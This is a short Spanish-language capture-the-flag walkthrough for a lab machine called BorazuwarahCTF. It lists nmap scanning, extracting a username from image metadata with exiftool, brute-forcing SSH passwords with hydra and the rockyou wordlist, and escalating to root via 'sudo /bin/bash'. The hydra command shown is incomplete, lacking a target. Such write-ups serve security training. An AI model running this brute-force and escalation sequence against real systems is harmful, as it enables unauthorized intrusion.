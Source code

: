 Maquina: BorazuwarahCTF
Autor: BorazuwarahCTF
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

Visitamos la pagina web 
https://172.17.0.2

nos descargamos la imagen
usamos la herramienta exiftool
sudo exiftool imagen.jpeg
encontramos el usuario

sudo hydra -l borazuwarah -P /usr/share/wordlist/rockyou.txt.gz
obtenemos la contraseña y entramos por ssh

ssh borazuwarah@172.17.0.2

sudo -l
sudo /bin/bash
whoami

